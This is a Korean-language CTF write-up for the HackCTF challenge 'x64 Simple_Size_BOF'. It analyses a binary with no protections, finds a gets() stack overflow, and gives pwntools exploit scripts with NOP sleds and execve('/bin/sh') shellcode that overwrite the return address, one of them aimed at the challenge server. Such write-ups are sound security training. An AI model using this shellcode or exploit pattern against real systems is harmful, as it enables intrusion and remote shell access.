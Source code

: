 **HackCTF - x64 Simple_Size_BOF**

| layout | title                         | auther   | categories | tags           |
| ------ | ----------------------------- | -------- | ---------- | -------------- |
| post   | HackCTF - x64 Simple_Size_BOF | Y3oj4eng | writeup    | writeupwargame |

# Anlaysis

---

`file` 명령어를 통해 바이너리의 정보를 획득한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file Simple_size_bof 
Simple_size_bof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=a18d2a384c8eed43683ec7a072dc350755fc72fb, not stripped

```

`64 bit ELF`파일이며, `x86-64` arch를 채택하였고 `non-stripped` 상태이다.

`checksec`을 이용하여 바이너리에 적용된 `mitigation`을 확인한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ checksec Simple_size_bof 
[*] '/home/mac/Desktop/hackCTF/Simple_size_bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

```

~~굳..~~ 아무런 보호기법도 적용되지 않았다.

프로그램을 직접 실행시켜 프로그램의 루틴을 파악한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./Simple_size_bof
삐빅- 자살방지 문제입니다.
buf: 0x7ffe59e7b790
zzzzzzzzzzzzzzzzzzzzz
```

`삐빅~ 자살방지 문제입니다.` 문자열 출력 이후 `buf`의 주소로 추정되는 주소값을 출력한다.

이후 5번라인을 보다시피 사용자의 입력을 받는다.

`IDA` 를 통해 보다 상세히 확인해보도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75743574-bdbae680-5d54-11ea-93d9-5f0d57c3cbe7.png)

`main` 함수의 구성은 매우 간단하다.

버퍼를 초기화 시킨뒤, `puts`를 통해 `s`변수가 참조하고 있는 데이터를 출력한다. (`s`변수는 `.rodata` 영역에 위치한다.)

이후 `v4` 변수(버퍼) 주소를 출력한 뒤 `gets` 함수를 통해 `v4`에 값을 입력받는다.

이 떄, 입력값에 대한 검증을 진행하지않아 **BOF**취약점이 존재한다.

문제를 풀 수 있는 방법은 매우 간단하다.

어떠한 `mitigation`도 적용되어 있지 않아 값을 입력받을때 쉘코드를 기입하고 `main`함수가 실행되고 복귀하는 지점의 `return address`를 쉘코드의 주소로 덮어씌운다.



# Exploit

---

1차적으로 작성한 `exploit code`는 아래와 같다.

```python
from pwn import *                                                       
                                                                         
p = process('./Simple_size_bof')                                        
                                                                         
#dummy = 27952 + 8bytes                                                 
buf = 0x7ffd7fe3ea10                                                    
shellcode ='\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'          #25bytes
                                                                        
payload = '\x90'*175                                                    
payload += shellcode                                                    
payload += '\x90'*27760                                                 
payload += p64(buf)                                                     
                                                                         
p.sendline(payload)                                                                                                                              
p.interactive()    
```

0x6d30크기의 버퍼를 덮기위한 `dummy`를 쉘코드와 `NOP`으로 준비하고 `return addrss`부분을 프로그램에서 출력해줬던 버퍼의 주소를 하드코딩하여 실행하였다.

쉘이 정상적으로 실행되지 않아 원인을 파악하던 도중, `buf`의 주소가 계속하여 바뀌는 것을 알 수 있었다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./Simple_size_bof 
삐빅- 자살방지 문제입니다.
buf: 0x7ffec0962930

mac at ubuntu in ~/Desktop/hackCTF
$ ./Simple_size_bof
삐빅- 자살방지 문제입니다.
buf: 0x7fff2f850330

mac at ubuntu in ~/Desktop/hackCTF
$ ./Simple_size_bof
삐빅- 자살방지 문제입니다.
buf: 0x7ffdf8144f40

mac at ubuntu in ~/Desktop/hackCTF
$ ./Simple_size_bof
삐빅- 자살방지 문제입니다.
buf: 0x7ffdf1af51a0

```

따라서, `buf`의 주소를 하드코딩이 아닌 프로그램으로 부터 문자열을 받아오도록 하는 코드로 재작성하였다.

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3005)
#p = process('./Simple_size_bof')

# buf + SFP = 27952 + 8 = 27960bytes
p.recvuntil('buf: ')
buf = int(p.recv(14), 16)

payload = '\x90'*27900
payload += '\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'			#23bytes
payload += '\x90'*37
payload += p64(buf)

p.sendline(payload)
p.interactive()
```

